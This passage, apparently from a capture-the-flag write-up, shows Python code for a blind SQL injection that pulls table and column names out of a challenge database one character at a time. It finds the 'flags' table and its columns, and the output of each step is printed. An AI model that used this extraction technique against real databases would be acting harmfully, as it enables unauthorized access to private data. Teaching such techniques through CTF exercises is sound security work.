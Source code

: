 ```python
            return tables
        tables += chr(lo)
        print(tables)

dump_tables()
```

We got this output.
```
a
ar
ar_
ar_i
...
ar_internal_metadata,flags,managers,schema_migrations,score
ar_internal_metadata,flags,managers,schema_migrations,scores
```

Table `flags` sounds interesting. Then, we dumped the columns from the table.

```python
...
def dump_columns(table_name):
    columns = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = '{}'),{},1)) > {}"
            s = s.format(table_name, len(columns)+1, mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return columns
        columns += chr(lo)
        print(columns)

dump_columns("flags")
```

We got this output.
```
i
id
id,
id,v
...
id,value,created_at,updated_a
id,value,created_at,updated_at
```
